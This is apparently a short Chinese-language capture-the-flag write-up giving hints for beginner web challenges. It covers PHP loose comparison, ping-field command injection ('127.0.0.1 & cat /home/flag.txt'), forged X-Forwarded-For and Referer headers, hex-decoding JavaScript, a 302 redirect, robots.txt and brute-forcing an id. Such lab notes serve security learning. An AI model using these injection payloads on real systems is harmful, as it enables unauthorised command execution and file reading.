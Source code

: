 
php是弱类型语言
0=='x'
1234=='1234x'

/?a=x&b=1239x

\--------

## command_execution

ping发现是一个linux系统

127.0.0.1 & find / -name flag.txt
127.0.0.1 & cat /home/flag.txt

\---------

## xff_referer

X-Forwarded-For: ![img](file:///C:\Users\28633\AppData\Roaming\Tencent\QQTempSys\%W@GJ$ACOF(TYDYECOKVDYB.png)123.123.123.123
Referer: ![img](file:///C:\Users\28633\AppData\Roaming\Tencent\QQTempSys\[5UQ[BL(6~BS2JV6W}N6[%S.png)https://www.google.com

\----------

## simple_js

\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30

转化为数字
数字以ascii转为英文

\---------

## baby_web

发现index.php通过302重定向1.php

抓包，查看index.php的302 response头部

\----------

## Training-WWW-Robots

查看robots.txt

\---------

## ics-06

爆破id=2333会出现flag
